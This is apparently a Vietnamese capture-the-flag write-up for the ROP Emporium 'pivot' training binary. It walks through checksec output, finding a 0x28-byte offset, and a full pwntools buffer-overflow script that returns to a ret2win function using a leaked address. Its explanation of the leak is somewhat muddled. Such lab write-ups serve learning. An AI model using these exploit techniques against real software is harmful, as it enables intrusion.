



# ROP_Emporium - pivot

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pivot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0e9fb878206e1858b042597fd36c51aa07497121, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Ở đây chỉ có 2 hàm thú vị:

Hàm main()



Và hàm pwnme()


# 2. Ý tưởng

Bài này leak cho ta địa chỉ của chuỗi đầu vào -> leak được libc từ đó kiếm được libc_base

# 3. Khai thác

Tại hàm pwnme cho chúng ta nhập vào 2 lần nhưng do leak được libc rồi nên chúng ta có thể nhập bỏ qua lần 1 và dùng kỹ thuật ret2win ở lần nhập thứ 2.

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:


Vậy offset là 0x28 bytes.

Do bài này leak được địa chỉ nên ta sẽ dùng:

```
p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")

leak = int(p.recv(12),16)

print("[+]LEAK:", hex(leak))
```

để leak địa chỉ và in ra màn hình.

- Dùng gdb để chạy chương trình và dùng **info functions** để xem các hàm chương trình có khi chạy ta phát hiện ra có hàm ret2win():



Ta tìm offset giữa địa chỉ leak được và địa chỉ hàm ret2win():


Như vậy địa chỉ hàm ret2win() = leak + 0x1e2b71

Full code:
```
from pwn import*

context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pivot', checksec=False)

p = process("./pivot")

#gdb.attach(p, gdbscript='''
#b*pwnme+113
#c
#''')
adget = elf.sym['usefulGadgets']

p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")
leak = int(p.recv(12),16)
print("[+]LEAK:", hex(leak))
win = leak + 0x1e2b71

payload = flat(
    cyclic(0x28),
    win
      )
p.sendlineafter(b"> ",payload)
p.sendlineafter(b"> ",payload)
p.interactive()

```

# 4. Lấy flag




